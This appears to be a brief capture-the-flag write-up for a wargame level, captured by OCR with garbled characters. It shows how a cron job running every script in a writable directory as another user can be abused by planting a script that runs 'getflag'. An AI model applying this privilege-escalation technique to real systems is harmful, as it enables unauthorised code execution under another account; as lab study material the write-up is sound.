 after u use user level05 you have a new mail contain cat /var/spool/mail/level05 _/2 _ \* \* \*
su -c "sh /usr/sbin/openarenaserver" - flag05 that's mean we launch this script every 2min the script is

`#!/bin/sh for i in /opt/openarenaserver/_ ; do (ulimit -t 5; bash -x "$i") rm -f "$i" done`

we create a script in /opt/openarenaserver/\_ and wait 2min and u ll get the flag echo "getflag > /tmp/res" > /opt/openarenaserver/tt.sh
